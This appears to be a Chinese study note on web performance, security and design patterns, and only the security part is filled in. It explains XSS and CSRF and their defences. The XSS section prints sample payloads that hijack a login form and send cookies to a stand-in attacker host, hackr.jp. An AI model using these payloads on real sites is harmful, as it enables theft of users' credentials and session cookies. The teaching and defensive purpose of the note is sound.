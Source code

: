 <!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
**Table of Contents**  *generated with [DocToc](https://github.com/thlorenz/doctoc)*

- [架构](#%E6%9E%B6%E6%9E%84)
  - [性能优化](#%E6%80%A7%E8%83%BD%E4%BC%98%E5%8C%96)
    - [1. web的性能优化思路](#1-web%E7%9A%84%E6%80%A7%E8%83%BD%E4%BC%98%E5%8C%96%E6%80%9D%E8%B7%AF)
  - [web安全](#web%E5%AE%89%E5%85%A8)
    - [1. web攻击手段和原理](#1-web%E6%94%BB%E5%87%BB%E6%89%8B%E6%AE%B5%E5%92%8C%E5%8E%9F%E7%90%86)
    - [2. XSS Cross-Site-Script](#2-xss-cross-site-script)
    - [3. CSRF Cross-site-request-forgery](#3-csrf-cross-site-request-forgery)
  - [设计模式](#%E8%AE%BE%E8%AE%A1%E6%A8%A1%E5%BC%8F)
  - [项目](#%E9%A1%B9%E7%9B%AE)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->



## 架构

### 性能优化

#### 1. web的性能优化思路



### web安全

#### 1. web攻击手段和原理

web攻击的目标主要是客户端, **服务器**以及web应用. 按照触发形式有主动攻击和被动攻击两种. 

> 主动攻击（active attack）是指攻击者通过直接访问 Web 应用，把 攻击代码传入的攻击模式

> 被动攻击（passive attack）是指利用圈套策略执行攻击代码的攻击模式

较常见的 `XSS` 和 `CRSF` 都是被动攻击. `SQL `注入和 `OS` 命令注入都是主动攻击. 

原理: web的攻击原理**篡改请求**, 在请求报文中加载攻击代码. 比如URL的查询字段, 表单, HTTP首部, Cookie等方式传入攻击代码, 如果有安全漏洞, 代码就会被执行, 内部信息被窃取或者拿到管理权限.

#### 2. XSS Cross-Site-Script

跨站脚本攻击通过运行非法的HTML或JS脚本进行攻击. 主要的目的是:

> - 利用表单诱导用填写账号密码, 并偷偷发送到攻击者的服务器中. (QQ被盗)
> - 利用脚本窃取用户的Cookie值, 在被害者不知情的情况下发送请求
> - 替换网页内容.

攻击入口: 1. 没有转义处理的表单; 2. 动态创建的HTML部分.

攻击模式: 利用事先布置好的陷阱(邮件/奇怪的链接/短信), 诱导用户点击, 属于被动攻击.

攻击类型: XSS 一般分为**存储型、反射型和 DOM 型**。

存储型指的是恶意代码提交到了网站的数据库中，当用户请求数据的时候，服务器将其拼接为 HTML 后返回给了用户，从而导致了恶意代码的执行。

反射型指的是攻击者构建了特殊的 URL，当服务器接收到请求后，从 URL 中获取数据，拼接到 HTML 后返回，从而导致了恶意代码的执行。

案例: 利用URL载入HTML标签

```js
http://example.jp/login?ID="><script>var+f=document⇒
.getElementById("login");+f.action="http://hackr.jp/pwget";+f.method=⇒
"get";</script><span+s="

<div class="input_id">
 ID <input type="text" name="ID" value=""><script>var f=document⇒
.getElementById("login"); f.action="http://hackr.jp/pwget"; f.method=⇒
"get";</script><span s="" />
</div>

//如上, 利用ID将value值替换并载入了script标签, 将提交url修改为攻击者的服务器, 从而获取账号密码.
```

同样也可以设置script到目标脚本窃取Cookie信息.

```js
<script svrc=http://hackr.jp/xss.js></script>
//内容如下
var content = escape(document.cookie);
document.write("<img src=http://hackr.jp/?");
document.write(content);
document.write(">");
```

防御手段: 

- 输入输出内容转移, 对于引号，尖括号，斜杠进行转义.
- 添加Cookie: HTTPOnly字段, 禁止js读取Cookie
- 添加CSP安全策略
- 验证码

[反射型XSS](https://www.jianshu.com/p/a15c411e4c92)

[存储型XSS漏洞](https://galiyy.github.io/2019/10/01/%E5%AD%98%E5%82%A8%E5%9E%8BXSS%E6%BC%8F%E6%B4%9E/)

[CSP](https://www.bookstack.cn/read/CS-Interview-Knowledge-Map/spilt.1.Safety-safety-cn.md)

#### 3. CSRF Cross-site-request-forgery

**跨站请求伪造** 也被称为 **one-click attack** 或者 **session riding**，通常缩写为 **CSRF** 或者 **XSRF**， 是一种挟制用户在当前已登录的Web应用程序上执行非本意的操作的攻击方法

攻击入口: 一般是第三方网站(如一些钓鱼网站), 钓鱼帖子

攻击模式: 攻击者诱导受害者进入第三方网站，在第三方网站中，向被攻击网站发送跨站请求. 攻击者诱导受害者进入第三方网站，在第三方网站中，向被攻击网站发送跨站请求

主要攻击目的:

> - 利用已通过认证的用户权限更新设定信息等 
>
> - 利用已通过认证的用户权限购买商品 
>
> - 利用已通过认证的用户权限在留言板上发表言论

一个典型的CSRF攻击有着如下的流程：

- 受害者登录a.com，并保留了登录凭证（Cookie）。
- 攻击者引诱受害者访问了b.com。
- b.com 向 a.com 发送了一个请求：a.com/act=xx。浏览器会默认携带a.com的Cookie。
- a.com接收到请求后，对请求进行验证，并确认是受害者的凭证，误以为是受害者自己发送的请求。
- a.com以受害者的名义执行了act=xx。
- 攻击完成，攻击者在受害者不知情的情况下，冒充受害者，让a.com执行了自己定义的操作。

防御手段:

- 阻止不明外域的访问

  - 同源检测

    可以通过验证 Referer 来判断该请求是否为第三方网站发起的。同源验证是一个相对简单的防范方法，能够防范绝大多数的CSRF攻击。但这并不是万无一失的.

  - Samesite Cookie

    可以对 Cookie 设置 `SameSite` 属性。该属性设置 Cookie 不随着跨域请求发送，该属性可以很大程度减少 CSRF 的攻击，但是该属性目前并不是所有浏览器都兼容

- 提交时要求附加本域才能获取的信息

  - CSRF Token

    服务器下发一个随机 Token（算法不能复杂），每次发起请求时将 Token 携带上，服务器验证 Token 是否有效

  - 双重Cookie验证

[如何防止CSRF攻击？](https://tech.meituan.com/2018/10/11/fe-security-csrf.html)


### 设计模式

### 项目
